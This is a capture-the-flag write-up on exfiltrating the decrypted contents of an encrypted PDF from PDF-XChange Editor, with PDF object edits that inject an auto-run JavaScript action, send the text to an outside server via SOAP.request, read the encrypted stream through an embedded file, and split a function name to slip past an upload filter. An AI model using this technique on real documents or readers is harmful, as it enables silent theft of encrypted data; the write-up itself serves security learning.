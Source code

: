 # PDF-Xfiltration

> Try to steal data from Dr. Virus to understand what's happening to your brother.

The description also links to a webpage with a lengthy lore, but TLDR:
- we are given an encrypted PDF file,
- our task is to read it contents,
- we can upload a PDF file in a provided web app,
- the uploaded PDF will be opened by a bot in a PDF-XChange Editor in version 7.0.326.1.

First we looked at the PDF-XChange editor changelog at
https://www.tracker-software.com/product/pdf-xchange-editor/history and found our that the next version had a following
vulnerability fixed:

> The Editor, and our other products that work with XMP, are now not affected by the "Billion laughs attack".

The attached support board thread had a PoC attached with an XXE vulnerability in XMP metadata. We've tried with this
approach for a while, but it either didn't work or the upload webpage refused to accept our PDF file:

```
Error on upload: XXE attack attempt detected. This is not the right path.
```

We've even obfuscted the XML XMP metadata stream using a `/ASCIIHexDecode` filter, but guess what... **it wasn't the
right path**. It was even possible that the PDF password to the provided encrypted PDF wasn't stored in a filesystem, so
XXE approach wouldn't help us anyway.

Our next idea was to prepare a PDF file with an interactive text input and an attached script that would send us the
result. If the bot was programmed to input a password in a dialog and pressing [enter] that would possibly send us the 
password. The form submit would display a warning and ask the user if it wants to send us the form, but we
reckoned that it might be automatically accepted when the bot would press [enter]. Sadly, it just didn't work.

Back to the drawing board... and a lot of Google searching, which fortunately was quite fruitful. We came upon a paper
describing, what basically is, a solution to our challenge: exfiltrating an encrypted content from a maliciously
modified PDF upon opening it.

We recommend everyone to read it in full: https://pdf-insecurity.org/download/paper-pdf_encryption-ccs2019.pdf. That's
some really cool research!

So the main issue with PDF encryption is that only parts of it are encrypted and the rest isn't authenticated at all. We 
can modify all the unencrypted parts as we wish and even add our own, unencrypted objects. The idea is to add a custom
JavaScript code that upon opening and decrypting data would send it back to us.

The basic structure of a PDF file is that it consists of objects with their attributes and data in form of strings
and streams (binary data). Our provided PDF file looks like this:

```
%PDF-1.7
%����
1 0 obj
<< /PageLayout /OneColumn /Pages 4 0 R /Type /Catalog >>
endobj
2 0 obj
<< /CreationDate <5052dd9f3a4e02156dad8653cdaebd0ec9924e398fb069b7a68e1ed3cd9f75605d2a95540b770dd7919dd6ed943b1c77> /Producer <1c1a1e2d0766c0ecdfad3c10ce7deb030e3a69c2bcd4267ca67f9e681344e55159a02e86b7ef87678e7b2c12052acfdea82cd1f08237e293cdb84a4310a59a30> >>
endobj
3 0 obj
<< /Contents 5 0 R /MediaBox 6 0 R /Parent 4 0 R /Resources 7 0 R /Type /Page >>
endobj
```

...

```
5 0 obj
<< /Filter /FlateDecode /Length 272 >>
stream
�1@������l��W���X�&]L=~/� ... binary data ... ��}}8��a�7���O� 4�<��8� �q��9�
endstream
endobj
```

...

```
9 0 obj
<< /CF << /StdCF << /AuthEvent /DocOpen /CFM /AESV3 /Length 32 >> >> /Filter /Standard /Length 256 /O <c37e813188aee0710d84780cdbd8f5911de08ad42e126bd25c7333caf4540eddf5206f6a77d78ecad15e92cb7d1eefe2> /OE <47892a2defde16d7c57eb11f414f6da78f0464984b0e95cbc8d17a8c720b9fcd> /P -1028 /Perms <0169d0437c42dabefbcd653efced456b> /R 6 /StmF /StdCF /StrF /StdCF /U <3c9aa6a28f972b072f290ae4781ab76ae1335bcfd46dc00f1c4dd24e65ea8986e9179277232bfd7462c44640382f8a9b> /UE <6c3394663ab0ce631d011e61a7891f3da2e9c9bdc22a3dde8d1efd6db0c0ceec> /V 5 >>
endobj
xref
0 10
0000000000 65535 f 
0000000015 00000 n 
0000000087 00000 n 
0000000362 00000 n 
0000000458 00000 n 
0000000517 00000 n 
0000000861 00000 n 
0000000898 00000 n 
0000001004 00000 n 
0000001101 00000 n 
trailer << /Info 2 0 R /Root 1 0 R /Size 10 /ID [<25577b924d52c40dabeb58264f356ef8><25577b924d52c40dabeb58264f356ef8>] /Encrypt 9 0 R >>
startxref
1651
%%EOF
```

So we have 9 objects and one of them, the 5th one is a stream with some binary data. The trailer at the end of the file
is the first thing that PDF readers process. The most important thing is the `/Root 1 0 R` which tells the reader that
the document root is in the 1st object, and, in our case, the `/Encrypt 9 0 R` which tells us the document is encrypted
and the details are specified in the 9th object.

```
9 0 obj
<< /CF << /StdCF << /AuthEvent /DocOpen /CFM /AESV3 /Length 32 >> >> /Filter /Standard /Length 256 /O <c37e813188aee0710d84780cdbd8f5911de08ad42e126bd25c7333caf4540eddf5206f6a77d78ecad15e92cb7d1eefe2> /OE <47892a2defde16d7c57eb11f414f6da78f0464984b0e95cbc8d17a8c720b9fcd> /P -1028 /Perms <0169d0437c42dabefbcd653efced456b> /R 6 /StmF /StdCF /StrF /StdCF /U <3c9aa6a28f972b072f290ae4781ab76ae1335bcfd46dc00f1c4dd24e65ea8986e9179277232bfd7462c44640382f8a9b> /UE <6c3394663ab0ce631d011e61a7891f3da2e9c9bdc22a3dde8d1efd6db0c0ceec> /V 5 >>
endobj
```

The attributes specify when the app should ask for a password, what the encryption algorithm is and its parameters
and whether it should consider that strings, streams and embedded files as encrypted or not. In our case, all of them
should be encrypted. That's not helpful, because we must add our JavaScript code and it has to be provided as either
string or a stream. As it turns out, both the PDF standard and different implementation quirks in various reader apps
allow us to have just that. In case of PDF-XChange Editor we can add a filter attribute to a stream specyfing that it
uses a special encryption algorithm: "Identity", so no encryption at all.

So let's add a new, unencrypted, object to our PDF file:

```
10 0 obj
    << /Filter [/Crypt] /DecodeParms [<< /Name /Identity >>]
       /Length 25
    >>
stream
console.println("hello");
endstream
endobj
```

That by itself isn't going to execute the JavaScript code. We need to add a reference to it in the catalog object.

So we change the 1st object from:  

```
<< /PageLayout /OneColumn /Pages 4 0 R /Type /Catalog >>
```

to

```
<< /PageLayout /OneColumn /Pages 4 0 R /Type /Catalog /OpenAction << /JS 10 0 R /S /JavaScript >> >>
```

The added `/OpenAction` specifies we want to execute JavaScript code from the 10th object upon opening the document.

Now that we can execute our code, we need an exfiltration method. Existing research describes a few possible exfiltration
methods. Preferably we'd want a 0-click way to send a network request and after testing several approaches we find that
we can use `SOAP.request('http://server/', [])` to send an HTTP request without triggering any warnings or dialogs in the 
application.

We've submitted the PDF with these changes, and, voilà, soon we've noticed an incoming HTTP request. Great.

So how do we exfiltrate data from the now decrypted 5th stream? Again, there are several documented approaches.
At first, we've used the simplest and pure-JavaScript method using the `getPageNthWord()` function. We've got the
following request:

```
GET /Patient,Details,Name,Alfonso,Manfreso,DOB,03,15,1959,Gender,M,Patient,ID,15646548,Results,to,the,COVID,test,INS,PDF,NCrypt,0n,BYp,ss,Thr0uGh,D,r3ct,3xf1ltRat1oN?WSDL HTTP/1.1
```

We kinda see the flag there: `INS,PDF,NCrypt,0n,BYp,ss,Thr0uGh,D,r3ct,3xf1ltRat1oN`, but it's missing all of special
characters. We've tried to figure them out, but resigned after a few failed submissions.

We can't directly access streams from the JavaScript API, but we can define two types of objects: annotations and embedded files that:
- can be accessed from the JavaScript API,
- their contents can be pointed to another stream.

First we tried annotations, but we found that the upload form blocked all PDFs with the needed parameter keyword `/Annots`.
So we were left with embedded files. Once again we can add their definitions to the catalog.

We change it from the previously modified version of:
```
<< /PageLayout /OneColumn /Pages 4 0 R /Type /Catalog /OpenAction << /JS 10 0 R /S /JavaScript >> >>
```

to

```
<< /PageLayout /OneColumn /Pages 4 0 R /Type /Catalog /OpenAction << /JS 10 0 R /S /JavaScript >> /Names << /EmbeddedFiles << /Names [(x) << /EF << /F 5 0 R >> >> ] >> >> >>
```

The added `/Names << /EmbeddedFiles << /Names [(x) << /EF << /F 5 0 R >> >> ] >>` specify an embedded file of name "x"
with contents of stream in 5th object.

It's content can be accessed in JavaScript with: `util.stringFromStream(this.getDataObjectContents("x",true));`.

Once again the upload form tried to annoy us with blacklisting the function name, but this time we've got several options
to obfuscate the code. The simplest `util.stringFromStream(this["getDat" + "aObje" + "ctContents"]("x",true))` did the work.

We sent the final payload and got the complete flag in the incoming HTTP request: `INS{PDF_#NCrypt!0n_BYp@ss_Thr0uGh_D/r3ct_3xf1ltRat1oN}`

The challenge would have been a lot easier if we'd also found PoCs attached with the original paper on PDF exfiltration,
but at least that forced us to learn a lot about PDF internals :).

[We also provide the complete Python script making the nessesary modifications](./kodzik.py) with the [original](./original.pdf) and [final](final.pdf) PDF files.
